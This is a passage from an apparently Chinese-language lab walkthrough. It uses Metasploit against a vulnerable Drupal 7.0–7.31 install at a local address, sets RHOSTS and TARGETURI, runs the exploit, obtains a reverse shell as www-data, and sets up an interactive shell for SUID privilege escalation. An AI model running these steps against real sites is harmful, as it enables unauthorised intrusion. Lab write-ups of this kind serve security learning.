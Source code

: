![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1608578159043.png)

可以看到target版本为 `Drupal 7.0 - 7.31`，正好符合我们搭建的版本

然后我们设置一下相关配置，先这是目标IP，`set RHOSTS 10.1.1.110`
还有`TARGETURI`，因为我们搭建的目录不是在根目录，`set TARGETURI /drupal7`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1608578388939.png)

然后执行exp  `exploit`，等待它反弹shell<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1608578476732.png)

反弹成功，可以看到权限为`www-data`，接下来我们来进行suid提权
先进入交互式命令行 `shell`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1608578570054.png)
